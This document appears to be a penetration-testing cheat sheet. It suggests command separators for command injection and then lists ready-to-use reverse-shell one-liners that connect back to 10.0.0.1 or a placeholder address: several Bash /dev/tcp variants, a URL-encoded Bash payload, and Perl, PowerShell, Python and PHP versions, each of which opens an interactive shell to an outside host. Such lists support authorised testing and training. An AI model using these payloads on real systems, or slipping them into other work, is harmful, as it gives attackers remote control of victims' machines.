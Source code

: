 Try the following command separators: ;, &&, |, ||

<span id="anchor-69"></span>Bash v1

|                                          |
| ---------------------------------------- |
| bash -i \>& /dev/tcp/10.0.0.1/8080 0\>&1 |

<span id="anchor-70"></span>Bash v1.5

|                                                      |
| ---------------------------------------------------- |
| bash -c 'bash -i \>& /dev/tcp/\<ip\>/\<port\> 0\>&1' |

<span id="anchor-71"></span>Bash v2

|                                                                                                |
| ---------------------------------------------------------------------------------------------- |
| bash -c 'exec 5\<\>/dev/tcp/\<ip\>/\<port\>; while read line 0\<&5; do $line 2\>&5 \>&5; done' |

<span id="anchor-72"></span>Bash v3

|                                                                                                     |
| --------------------------------------------------------------------------------------------------- |
| bash -c 'exec 5\<\>/dev/tcp/\<ip\>/\<port\>; cat \<&5 | while read line; do $line 2\>&5 \>&5; done' |

<span id="anchor-73"></span>URL Encoded

|                                                                                                 |
| ----------------------------------------------------------------------------------------------- |
| bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F**\<address\>**%2F**\<port\>**%200%3E%261%27 |

<span id="anchor-74"></span>Perl

|                                                                                                                                                                                                                                     |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,"\>\&S");open(STDOUT,"\>\&S");open(STDERR,"\>\&S");exec("/bin/sh -i");};' |

<span id="anchor-75"></span>PowerShell

|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| $client = New-Object System.Net.Sockets.TCPClient('**\<IP\_Address\>**',**\<port\>**);$stream = $client.GetStream();\[byte\[\]\]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2\>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '\> ';$sendbyte = (\[text.encoding\]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}; |

<span id="anchor-76"></span>Python

|                                                                                                                                                                                                                                      |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);' |

<span id="anchor-77"></span>PHP

|                                                                               |
| ----------------------------------------------------------------------------- |
| php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i \<&3 \>&3 2\>&3");' |
